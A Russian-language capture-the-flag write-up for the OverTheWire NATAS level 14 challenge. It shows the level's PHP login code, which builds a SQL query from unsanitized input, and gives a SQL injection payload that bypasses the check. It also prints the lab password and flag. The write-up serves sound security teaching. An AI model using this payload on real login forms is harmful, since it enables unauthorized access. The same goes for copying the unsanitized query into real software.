



# NATAS_14 WriteUp
:computer: Host: http://natas14.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas14  
:key: Password: qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

:triangular_flag_on_post: Flag: TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
 
- [NATAS\_14 WriteUp](#natas_14-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом


Ввод данных **test:test** возвращает вот такую реакцию


Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
В исходном коде видим, что SQL запрос с проверкой введённых данных наполняется пользовательским вводом без очистки
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";

```

После чего, результат запроса передаётся для проверки
```php
if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } 
```  

Следовательно, пробуем SQL инъекцию, которая заставит запрос вернуть строки, содержащиеся в таблице users и, таким образом, пройти вышеописанную проверку  
:space_invader: Payload: ``test" or "1"="1" #`` 



Полученный флаг: TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
